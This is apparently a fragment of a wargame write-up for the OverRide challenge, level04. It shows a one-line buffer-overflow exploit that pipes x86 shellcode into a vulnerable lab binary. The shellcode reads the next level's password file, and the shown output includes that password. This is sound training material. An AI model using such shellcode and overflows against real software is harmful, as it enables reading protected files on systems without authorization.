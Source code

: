 http://faculty.nps.edu/cseagle/assembly/sys_call.html

nasm -felf32 test.s && ld -m elf_i386 test.o -o a.out && ./a.out

```
level04@OverRide:~$ (python -c "print('\x31\xc9\xf7\xe1\x6a\x05\x58\x51\x6a\x73\x68\x2e\x70\x61\x73\x68\x6c\x30\x35\x2f\x68\x6c\x65\x76\x65\x68\x65\x72\x73\x2f\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x89\xe3\xcd\x80\x50\x5b\x6a\x29\x5a\x8d\x0c\x24\x42\xcd\x80\x50\x5a\x6a\x01\x5b\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80' + 'A' * 86 + '\x60\xd6\xff\xff')") | /home/users/level04/level04 
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```
